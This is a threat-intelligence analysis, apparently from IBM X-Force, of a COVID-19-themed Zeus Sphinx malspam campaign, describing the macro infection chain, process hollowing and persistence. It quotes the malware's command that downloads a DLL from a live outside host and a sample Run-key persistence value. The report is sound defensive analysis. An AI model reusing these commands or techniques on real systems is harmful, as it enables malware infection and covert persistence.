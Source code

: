 Almost all malware campaigns nowadays use malicious document files (maldocs) to reach potential victims’ mailboxes. The Sphinx campaigns we have observed are also being distributed via maldoc spam that takes advantage of the trending COVID-19 theme. Over the past three months, spammers everywhere are using the pandemic to spread phishing, scams and malware. In Sphinx’s case, the email tells victims that they need to fill out an attached form to receive monetary compensation for having to stay at home to help fight increasing infection rates.

Figure 1: Malspam delivering a Zeus Sphinx infection (Source: IBM X-Force)
From a variety of Office programs, with the majority being .doc or .docx files, these documents at first request the end user to enable executing a macro, unknowingly triggering the first step of the infection chain. Once the end user accepts and enables these malicious macros, the script will start its deployment, often using legitimate, hijacked Windows processes that will fetch a malware downloader. Next, the downloader will communicate with a remote command-and-control (C&C) server and fetch the relevant malware — in this case, the new Sphinx variant.
The maldoc is password-protected, likely to prevent analysis of the file before the recipient opens it.

Figure 2: Maldoc file requires a password to open (Source: IBM X-Force)
In the next step, the recipient is asked to enable macros.

Figure 3: Booby-trapped maldoc file asks user to enable macros (Source: IBM X-Force)
Once on the device, Sphinx establishes persistence via commonly used methods to maintain its grasp on the end user’s machine. In this case, it writes numerous folders and files to disk and adds some Registry keys in order to hide itself and manage its configuration files over time.
Deployment Method
The infection process of the new Zeus Sphinx variant starts off with the weaponized document that creates a malicious folder under %SYSTEMDRIVE% and writes a batch file into it.
After executing the batch file, it writes a VBS file to the same folder. That file is executed and uses a legitimate WScript.exe process, creates a communication channel with its C&C server and downloads a malicious executable in the form of a DLL.

Figure 4: Sphinx scripts and junk text inserted into the file (Source: IBM X-Force)
The command line is similar in several cases. As written in the VBS content file, this is an example of the command:
“nologo C:\Logs\Jobs.vbs http://brinchil.xyz/MLrPSC C:\Logs\kofet.dll“
The malicious DLL, which is Sphinx’s executable, is also written to the folder under %SYSTEMDRIVE%. The infection process is initiated with the execution of the Sphinx DLL using Regsvr32.exe, which sets off Sphinx’s infection chain.
At first, the malware creates a hollow process, msiexec.exe, and injects its code into it. This same step was used by older versions of Sphinx for deployment. It creates the first folder under %APPDATA% and creates an executable file in it. Later on, it will change the extension to .DLL for persistence purposes.
In addition, the malware adds over 10 other malicious folders containing various data files under %APPDATA%.

Figure 5: Sphinx folders written into the APPDATA section (Source: IBM X-Force)
Next, the malware creates a run key in the Registry under HKCU\Software\Microsoft\Windows\CurrentVersion\Run\ with the path to the DLL set under %APPDATA% as a persistence method using Rundll32.exe and DllRegisterServer as an argument. This will execute the DLL using the Regsrv32.exe process.
For example:

Key — HKCU\Software\Microsoft\Windows\CurrentVersion\Run\Uffuehh
Value — rundll32.exe C:\Users\michel\AppData\Roaming\Fecaa\dagicoy.dll,DllRegisterServer
